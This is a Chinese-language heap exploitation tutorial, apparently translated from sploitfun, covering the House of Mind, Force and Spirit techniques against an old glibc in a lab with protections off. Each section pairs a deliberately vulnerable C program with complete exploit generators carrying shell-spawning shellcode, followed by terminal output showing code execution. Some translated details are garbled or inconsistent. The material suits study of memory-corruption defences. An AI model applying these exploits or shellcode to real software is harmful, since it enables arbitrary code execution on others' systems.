





重要:
> 本文参考[^sploitfun]和[MallocMaleficarum](../media/attach/MallocMaleficarum.txt),编译时候没有使用`ASLR`,`NX`,`RELRO`安全机制。

自 2004 后，`glibc malloc` GOT 获得加固，`unlink`技术被淘汰。但是很快在 2005 年，`Phantasmal Phatasmagoria` 带来了一系列针对堆一处利用的技术。

>
* The House of Prime：在调用函数 malloc 后，要求两个释放的堆块包含攻击者可控的 size 字段。
* The House of Mind：要求能够操作程序反复分配新的内存。
* The House of Force：要求能够重写 top chunk，并且存在一个可控 size 的 malloc 函数，最后还需要再调用另一个 malloc 函数。
* The House of Lore：不适用于我们的例程。
* The House of Spirit：假设攻击者可以控制一个释放块的指针，但是这个技术还不能使用。

# House of Mind

在这个技术里面攻击者戏使用自己构造的`arena`去戏弄`malloc glibc`。假的`arena` 以 unsorted bin 的 fd 是 free - 12 的 got 入口地址，因此漏洞程序在 free chunk 时 `free()` 的 got 入口被 shellcode 地址覆盖后，这时 free 被调 pbzip2 用 shellcode 就会被执行!

> 不是所有堆溢出都能用这个技术，下面是能应用`house of mind`先决条件:

需要一些列 malloc 的调用直到一块内存的地址对齐到 HEAP_MAX_SIZE 的整数倍，这样才能得到一块有攻击者控制的内存。

假冒的`help_info` 结构体在这内存区域被发现。伪造的`heap_info`的`arena`指针 ar_ptr 将会指向伪造的`arena`.

因此伪造的`arena`和伪造的`heap_info`的内存区域都会被攻击者控制。

chunk 的 size 域(和它的 arena 指针 - prereq 1) 被攻击者控制应该被 free。

chunk 相邻的 free chunk 前面不该是 top chunk.

漏洞程序: 这个程序满足上述需求。

```c
/* vuln.c
 House of Mind vulnerable program
 */
#include <stdio.h>
#include <stdlib.h>

int main (void) {
 char *ptr = malloc(1024); /* First allocated chunk */
 char *ptr2; /* Second chunk/Last but one chunk */
 char *ptr3; /* Last chunk */
 int heap = (int)ptr & 0xFFF00000;
 _Bool found = 0;
 int i = 2;

 for (i = 2; i < 1024; i++) {
   /* Prereq 1: Series of malloc calls until a chunk's address - when aligned to HEAP_MAX_SIZE results in 0x08100000 */
   /* 0x08100000 is the place where fake heap_info structure is found. */
   [1]if (!found && (((int)(ptr2 = malloc(1024)) & 0xFFF00000) == \
      (heap + 0x100000))) {
     printf("good heap allignment found on malloc() %i (%p)\n", i, ptr2);
     found = 1;
     break;
   }
 }
 [2]ptr3 = malloc(1024); /* Last chunk. Prereq 3: Next chunk to ptr2 != av->top */
 /* User Input. */
 [3]fread (ptr, 1024 * 1024, 1, stdin);

 [4]free(ptr2); /* Prereq 2: Freeing a chunk whose size and its arena pointer is controlled by the attacker. */
 [5]free(ptr3); /* Shell code execution. */
 return(0); /* Bye */
}
```

上述程序的堆内存布局：



标号 3 是发生堆溢出的位置。

用户输入被会被存储到 chunk1 的内存指针 大小为 1M 的内存。

因此为了成功利用堆溢出，攻击者提高如下的用户输入(区分序列):

* 假 arean
* 填充
* 假 heap_info
* shellcode

exp 程序,这个程序生成攻击者的输入数据:

```c
/* exp.c
Program to generate attacker data.
Command:
     #./exp > file
*/
#include <stdio.h>

#define BIN1 0xb7fd8430

char scode[] =
/* Shellcode to execute linux command "id". Size - 72 bytes. */
"\x31\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x5e"
"\xc9\x6a\x42\x83\xeb\xfc\xe2\xf4\x34\xc2\x32\xdb\x0c\xaf\x02\x6f"
"\x3d\x40\x8d\x2a\x71\xba\x02\x42\x36\xe6\x08\x2b\x30\x40\x89\x10"
"\xb6\xc5\x6a\x42\x5e\xe6\x1f\x31\x2c\xe6\x08\x2b\x30\xe6\x03\x26"
"\x5e\x9e\x39\xcb\xbf\x04\xea\x42";

char ret_str[4] = "\x00\x00\x00\x00";

void convert_endianess(int arg)
{
        int i=0;
        ret_str[3] = (arg & 0xFF000000) >> 24;
        ret_str[2] = (arg & 0x00FF0000) >> 16;
        ret_str[1] = (arg & 0x0000FF00) >> 8;
        ret_str[0] = (arg & 0x000000FF) >> 0;
}
int main() {
        int i=0,j=0;

        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd_nextsize */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk_nextsize */
        /* Fake Arena. */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* mutex */
        fwrite("\x01\x00\x00\x00", 4, 1, stdout); /* flag */
        for(i=0;i<10;i++)
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fastbinsY */
        fwrite("\xb0\x0e\x10\x08", 4, 1, stdout); /* top */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* last_remainder */
        for(i=0;i<127;i++) {
                convert_endianess(BIN1+(i*8));
                if(i == 119) {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* preserve prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* preserve size */
                } else if(i==0) {
                        fwrite("\xe8\x98\x04\x08", 4, 1, stdout); /* bins[i][0] = (GOT(free) - 12) */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
                else {
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][0] */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
        }
        for(i=0;i<4;i++) {
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* binmap[i] */
        }
        fwrite("\x00\x84\xfd\xb7", 4, 1, stdout); /* next */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* next_free */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* system_mem */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* max_system_mem */
        for(i=0;i<234;i++) {
                fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* PAD */
        }
        for(i=0;i<722;i++) {
                if(i==721) {
                        /* Chunk 724 contains the shellcode. */
                        fwrite("\xeb\x18\x00\x00", 4, 1, stdout); /* prev_size  - Jmp 24 bytes */
                        fwrite("\x0d\x04\x00\x00", 4, 1, stdout); /* size */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd_nextsize */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk_nextsize */
                        fwrite("\x90\x90\x90\x90\x90\x90\x90\x90" \
                        "\x90\x90\x90\x90\x90\x90\x90\x90", 16, 1, stdout);  /* NOPS */
                        fwrite(scode, sizeof(scode)-1, 1, stdout); /* SHELLCODE */
                        for(j=0;j<230;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        continue;
                } else {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* size */
                }
                if(i==720) {
                        for(j=0;j<90;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        fwrite("\x18\xa0\x04\x08", 4, 1, stdout); /* Arena Pointer */
                        for(j=0;j<165;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                } else {
                        for(j=0;j<256;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                }
        }
        return 0;
}
```

使用构造的数据输入后的漏洞程序堆空间：



随着攻击者生成的数据被输入，当标号 4 被执行时 glibc malloc 做了如下的：

* 通过调用 arena_for_chunk 宏来恢复正在释放的 chunk 的 arena。

1. `arena_for_chunk`： 如果 NON_MAIN_ARENA (N) bit 没有被置位，会返回 main arena，如果设置了，则通过将块地址与 HEAP_MAX_SIZE 的倍数对齐来访问对应的 heap_info 结构。

然后返回获得的 heap_info 结构体的 arena 指针。

在我们的例子里面，NON_MIAN_ARENA 位被攻击者设置，因此获得被释放的 chunk 的 heap_info 结构体。

攻击者也将以这样的方式覆写（获得的 heap_info 结构的）arena 指针，即它指向 fake arena，即 heap_info 的 ar_ptr = fake arena 的基地址（即 0x0804a018）。

使用 arena 指针和 chunk 地址作为参数调用_int_free. 在例子中，arena 指针指向伪造的 arena,因此假 arena 和 chunk 地址作为参数传递给_int_free。

假 arena 的构造：以下是需要被攻击者覆写的假 arena 的必填字段：

mutex - 应该是无锁状态
bins - unsorted bin 的 fd 应该包含 free - 12 的 got 的地址

顶部地址不应该等于被 free 的 chunk 地址。

顶部地址应该大于 next chunk 的地址。

系统内存 - 内存应该大于 next chunk 的 size。

> _int_free():

* 如果 chunk 没有映射，则获得锁，在我们的例子里面 chunk 没有被映射所以假的 arena 互斥锁获取成功。

1. 合并:

如果发现前面的 chunk 是 free 的，则像后合并;后面的 chunk 是 free 的，则向前合并。在我们的例子中前面的 chunk 是被分配的出去的，所以不能被向后合并；后面的 chunk 状态也是 allocated 因此不能被向前合并。

* 当前的 free chunk 在 unsorted bin.

在我们的案例中，fake arena 的 unsorted bin 的 fd 包含 free 的 GOT 的地址 - 12，它被复制到'fwd'。

之后，当前被释放的 chunk 的地址被复制到`fwd->bk`.

bk 是位于 malloc_chunk 偏移 12 的地方，因此 12 被加到这个 fwd 的值上也就是说 free-12+12

因此现在 free 的 got 入口地址被修改成包含当前的 free 状态的 chunk 的地址。

自攻击者放置他的 shellcode 在当前 free 状态的 chunk，然后不久 free 被调用时候攻击者的 shellcode 被执行。

攻击者以构造的数据做输入执行存在的漏洞的程序 shellcode 被执行如下：

```shell
Sn0rt@warzone:~$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=~/workspace/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=~/workspace/glibc/glibc-inst2.20/lib/ld-linux.so.2
Sn0rt@warzone:~$ gcc -g -o exp exp.c
Sn0rt@warzone:~$ ./exp > file
Sn0rt@warzone:~$ ./vuln < file
ptr found at 0x804a008
good heap allignment found on malloc() 724 (0x81002a0)
uid=1000(sploitfun) gid=1000(sploitfun) groups=1000(sploitfun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```

保护： 如今，house of mind 技术自`glibc malloc` GOT 加固后而失效。

下面是 glibc 为保护 house-of-mind 利用堆溢出增加的检查：

被破坏的 chunk：如果`glibc malloc`没有抛出 chunk 被破坏这样的错误，那么 unsotred bin 的第一个 chunk 的 bk 指针应该指向 unsorted bin.

```c
      if (__glibc_unlikely (fwd->bk != bck))
        {
          errstr = "free(): corrupted unsorted chunks";
          goto errout;
        }
```

# House of Force

在这种技术中，攻击者滥用 top chunk size 来戏弄 'glibc malloc' 使用 top chunk 处理非常大的内存请求(大于堆系统内存大小)。

现在当一个新的 malloc 请求参数，free 的 GOT 条目将被覆写为 shellcode 地址。

因此自现在起无论何时 free() 被调用，shellcode 将会被执行。

先决条件：成功应用 house of force 需要三个 malloc 调用如下：

* Malloc 1: 攻击者应该可以控制 top chunk 的 size，因此，堆溢出应该可能在物理上位于 top chunk 之前的这个分配的块上。
* Malloc 2: 攻击者应该能够控制这个 malloc 请求的大小。
* Malloc 3: 用户输入应复制到这个分配的 chunk。

漏洞程序: 此程序满足上述先决条件.

```c
/*
House of force vulnerable program.
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[])
{
        char *buf1, *buf2, *buf3;
        if (argc != 4) {
                printf("Usage Error\n");
                return;
        }
        [1]buf1 = malloc(256);
        [2]strcpy(buf1, argv[1]); /* Prereq 1 */
        [3]buf2 = malloc(strtoul(argv[2], NULL, 16)); /* Prereq 2 */
        [4]buf3 = malloc(256); /* Prereq 3 */
        [5]strcpy(buf3, argv[3]); /* Prereq 3 */

        [6]free(buf3);
        free(buf2);
        free(buf1);
        return 0;
}
```

上述漏洞程序的 heap 内存图示：



漏洞程序的 line[2] 时发生堆溢出的地方，因此想要成功利用堆溢出，攻击者需要提供如下名利行参数:

argv[1], shellcode + 填充 + top chunk 的 size 被复制到首个 malloc chunk。
argv[2], size 参数到第二个 malloc chunk。
argv[3], 用户输入被复制到第三个 malloc chunk。

## Exploit chain

利用程序：

exploit program:

```c
/* Program to exploit executable 'vuln' using hof technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

#define VULNERABLE "./vuln"
#define FREE_ADDRESS 0x08049858-0x8
#define MALLOC_SIZE "0xFFFFF744"
#define BUF3_USER_INP "\x08\xa0\x04\x08"

/* Spawn a shell. Size - 25 bytes. */
char scode[] =
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main( void )
{
        int i;
        char * p;
        char argv1[ 265 ];
        char * argv[] = { VULNERABLE, argv1, MALLOC_SIZE, BUF3_USER_INP, NULL };

        strcpy(argv1,scode);
        for(i=25;i<260;i++)
                argv1[i] = 'A';

        strcpy(argv1+260,"\xFF\xFF\xFF\xFF"); /* Top chunk size */
        argv[264] = ''; /* Terminating NULL character */

        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```

一旦攻击者的命令行参数被复制到堆中后的漏洞程序的堆内存布局：


伴随着攻击者参数发生如下：

标号 2 覆写 top chunk 的 size:

> 攻击者参数(argv[1] - shellcode + pad + 0xFFFFFFFF)被复制到 buf1 的堆，但是参数 argv[1] 大于 256，所以 top chunk 的 size 会被覆写为 0xFFFFFFFF。

标号 3 使用 top chunk 分配非常大的块：

> 非常大的块分配请求的目的是在分配之后使新的 top chunk 应该位于 free 的 GOT 条目之前 8 个字节。

所以多个 malloc 的请求(标号 4)将会帮助我么覆写 free 的 got 条目。

攻击者参数（argv [2] - 0xFFFFF744）作为 size 参数传递给第二个 malloc 调用（标号[3]）。

这个 size 参数通过下面公式计算的：

 size = ((free-8)-top)

位置

> free 是 "vlun 中 free 的 GOT 的条目" 也就是说 free = 0x08049858.

> top 是 "当前的 top chunk (标号 1 后的第一个 malloc)"也就是说 top = 0x0804a108.

因此 size = ((0x8049858-0x8)-0x804a108) = -8B8 = 0xFFFFF748

当  size = 0xFFFFF748 是我们放置新 top chunk free 的 GOT 条目之前的 8 bytes 的实现方式展示如下：

> (0xFFFFF748+0x804a108) = 0x08049850 = (0x08049858-0x8)

但是当攻击者通过一个 size 参数 0xFFFFF748，glibc malloc 换装这 size 变成可用的 size 0xFFFFF750，所以现在新的 top chunk 的 size 会位于 0x8049858 而不是 0x8049850.

所以作为 0xFFFFF748 的替代，攻击者应该通过 0xFFFFF74 为 size 参数，这样它会被转化为一个如我们所需要内部可用的 size 0xFFFFF748。

在标号 4:

> 现在自标号 [3] top chunk 指向 0x8049850，一个 256 字节的内存分配的请求将会使 glibc malloc 返回 0x8049858 被复制到 buf3.

在标号[5]:

> 复制 buf1 的地址到 buf3，导致 GOT 被覆盖，所以在 line[6]掉用 free 会导致任意 shellcode 执行！

用攻击者命令行参数正在的执行的漏洞程序执行 shellcode 如下所示：

```shell
Sn0rt@warzone:~$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
Sn0rt@warzone:~$ gcc -g -o exp exp.c
Sn0rt@warzone:~$ ./exp
$ ls
cmd  exp  exp.c  vuln  vuln.c
$ exit
```

保护: 直到目前，还没有增加这个技术的保护技术，也就说这个技术可以帮助我们在最新版本的 glibc 上利用堆溢出。🙂

# House of Spirit

这个技术，攻击者戏弄 glibc malloc 返回的 chunk 的地址位于 stack 段，而不是堆段。这样就允许攻击者覆盖存储在栈上的返回地址。

先决条件：不是所有堆溢出都能适用 house of spirit,下面是能成功应用它的先决条件。

* 一个缓冲区溢出覆盖一个包含 malloc 返回的 chunk 地址的变量。
* 上述 chunk 应该是 free 状态，攻击者应该可以控制这个 chunk 的 size 字段，并把它改成等于下一个分配的 chunk 的 size 值。
* Malloc 一个 chunk。
* 用户输入可以被复制到上述的 malloc 的 chunk。

漏洞程序：这个程序看上去满足上述需求。

```c
/* vuln.c
House of Spirit vulnerable program
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void fvuln(char *str1, int age)
{
   char *ptr1, name[44];
   int local_age;
   char *ptr2;
   [1]local_age = age; /* Prereq 2 */

   [2]ptr1 = (char *) malloc(256);
   printf("\nPTR1 = [ %p ]", ptr1);
   [3]strcpy(name, str1); /* Prereq 1 */
   printf("\nPTR1 = [ %p ]\n", ptr1);
   [4]free(ptr1); /* Prereq 2 */

   [5]ptr2 = (char *) malloc(40); /* Prereq 3 */
   [6]snprintf(ptr2, 40-1, "%s is %d years old", name, local_age); /* Prereq 4 */
   printf("\n%s\n", ptr2);
}

int main(int argc, char *argv[])
{
   int i=0;
   int stud_class[10];  /* Required since nextchunk size should lie in between 8 and arena's system_mem. */
   for(i=0;i<10;i++)
        [7]stud_class[i] = 10;
   if (argc == 3)
      fvuln(argv[1], 25);
   return 0;
}
```
上述漏洞程序的栈布局



漏洞程序的标号[3]处发生了缓冲区溢出，因此为了成功利用漏洞程序，攻击者需要给出以下的命令行参数：

argv[1] = Shell Code + Stack Address + Chunk size

Exp:

```c
/* Program to exploit executable 'vuln' using hos technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

#define VULNERABLE "./vuln"

/* Shellcode to spwan a shell. Size: 48 bytes - Includes Return Address overwrite */
char scode[] =
        "\xeb\x0e\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xb8\xfd\xff\xbf\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90";

int main( void )
{
        int i;
        char * p;
        char argv1[54];
        char * argv[] = { VULNERABLE, argv1, NULL };

        strcpy(argv1,scode);

        /* Overwrite ptr1 in vuln with stack address - 0xbffffdf0. Overwrite local_age in vuln with chunk size - 0x30 */
        strcpy(argv1+48,"\xf0\xfd\xff\xbf\x30");

        argv[53] = '';

        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```

上述程序在攻击者参数下的栈的布局



随着攻击参数让我们看一下返回地址是如何被覆盖的：

Line[3]: 缓冲区溢出

这里攻击者输入 argv[1] 被复制到名为 name 的缓冲区里面。

因为攻击者输入的数据大于 44，变量的 ptr1 和 local_age 分别被栈地址和 chunk size 覆盖。

栈地址 - 0xbffffdf0 - 攻击者戏弄 glibc malloc 返回这个地址当 line[5]被执行时。

chunk size - 0x30 这个 chunk size 被用来当 line[4]被执行时戏弄 glibc malloc。

Line[4]: 把栈区域加到 glibc malloc 的 fast bin。

free() 调用 _int_free(). 现在缓冲区溢出后  ptr1 = 0xbffffdf0 (而不是 0x804aa08).

以 free()的一个参数覆盖 ptr1

Overwritten ptr1 is passed as an argument to free().

这欺骗 glibc malloc 来 free 一个位于栈空间的内存区域。

这个栈区域的 size 会获释放，攻击者会用 0x30 覆盖位于 ptr1-8+4

因此`glibc malloc`对待这个 chunk 就像 fast chunk 一样(因为 48 < 64)，感兴趣的 free 状态的 chunk 位于 索引 4 的 fastbinlist 的前端。.

Line[5]: 恢复栈区域(被添加在 line[4])

对 malloc 的 40 字节请求会被`checked_request2size()`转化为 48 字节。

因为可用 size 48 是属于 fast chunk 的，它的对应的 fast binlist(位于 4 号索引)被恢复。

fast bins 的第一个 chunk 被移除并返回给用户。

第一个 chunk 无所谓，但是栈区域在 line[4]执行期间被增加了。

Line[6]: 覆盖返回地址

复制攻击参数 argv[1] 到位置开始于 0xbffffdf0 的栈区域(glibc malloc 返回的)。

argv[1]前 16 字节是
\xeb\x0e. 14 字节转跳
\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41, 填充
\xb8\xfd\xff\xbf, 用这个值覆盖存储在 stack 上的返回地址。

因此当 fvuln 被执行，eip 将会是 0xbffffdb8 - 这个位置包含转跳指令接着 shellcode 会 spwan 一个 shell！

```shell
Sn0rt@warzone:~$ gcc -g -fno-stack-protector -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=~/workspace/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=~/workspace/glibc/glibc-inst2.20/lib/ld-linux.so.2
Sn0rt@warzone:~$ gcc -g -o exp exp.c
Sn0rt@warzone:~$ ./exp

PTR1 = [ 0x804a008 ]
PTR1 = [ 0xbffffdf0 ]

AAAAAAAAAA����1�Ph//shh/bin��P��S�
$ ls
cmd  exp  exp.c  print	vuln  vuln.c
$ exit
```

保护: 目前为止还没有增加保护技术，也就说这个技术可以帮助我们在最新版本的 glibc 上利用堆溢出。

# House of Prime

WIP

# House of Lore

WIP

### reference

[^sploitfun]: [sploitfun](https://sploitfun.wordpress.com/2015/03/04/heap-overflow-using-malloc-maleficarum/)
